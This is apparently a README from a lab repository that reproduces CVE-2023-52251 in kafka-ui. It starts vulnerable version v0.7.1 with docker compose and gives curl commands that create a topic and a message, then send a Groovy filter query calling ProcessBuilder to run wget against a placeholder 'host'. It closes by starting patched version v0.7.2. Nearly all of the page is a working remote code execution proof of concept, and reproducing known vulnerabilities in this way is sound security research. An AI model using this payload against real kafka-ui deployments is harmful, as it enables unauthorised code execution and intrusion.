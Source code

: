 # vulnerable kafka-ui version
```bash
KAFKA_UI_VERSION=v0.7.1 docker compose -p kafka-ui-vulnerable up
```
## steps to reproduce CVE-2023-52251
```bash
# create a topic
curl -X POST http://127.0.0.1:8091/api/clusters/local/topics \
-H "Content-Type: application/json" \
-d '{"name":"topic","partitions":1,"configs":{"cleanup.policy":"delete","retention.bytes":"-1"}}'

# create a message
curl -X POST http://127.0.0.1:8091/api/clusters/local/topics/topic/messages \
-H "Content-Type: application/json" \
-d '{"partition":0,"key":"123","content":"123","keySerde":"String","valueSerde":"String"}'

# create a filter with RCE payload 
curl -G "http://127.0.0.1:8091/api/clusters/local/topics/topic/messages" \
--data-urlencode "q=new ProcessBuilder(\"wget\",\"host\").start()" \
--data-urlencode "filterQueryType=GROOVY_SCRIPT"
```
# secure kafka-ui against CVE-2023-52251
```bash
KAFKA_UI_VERSION=v0.7.2 docker compose -p kafka-ui-secure up 
```